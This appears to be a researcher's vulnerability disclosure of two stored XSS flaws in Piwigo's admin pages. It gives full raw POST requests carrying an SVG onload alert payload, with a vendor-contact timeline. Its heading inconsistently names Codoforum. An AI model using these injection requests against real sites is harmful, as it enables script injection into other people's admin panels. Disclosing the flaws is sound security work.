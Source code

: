 # This is what I achived when research on [Codoforum 2.10.1](https://piwigo.org/)
## Stored XSS in /admin.php?page=permalinks
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=permalinks HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=permalinks
Cookie: pwg_id=ragm92nc6a3rr532fi0h9h6f21
Upgrade-Insecure-Requests: 1

cat_id=3&permalink=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&save=on&set_permalink=Submit&pwg_token=2048f9dd482aaca003e193045fd4f763
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/1.png)
![](https://github.com/matuhn/Research/raw/master/Piwigo/2.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive


## Stored XSS in /admin.php?page=tags
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=tags HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=tags
Cookie: pwg_id=kikufgh78rp553s266q6r0sj62
Upgrade-Insecure-Requests: 1

pwg_token=c8dea9237930ccb48c6d1a4e5020b32b&add_tag=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&add=Submit
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/3.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive
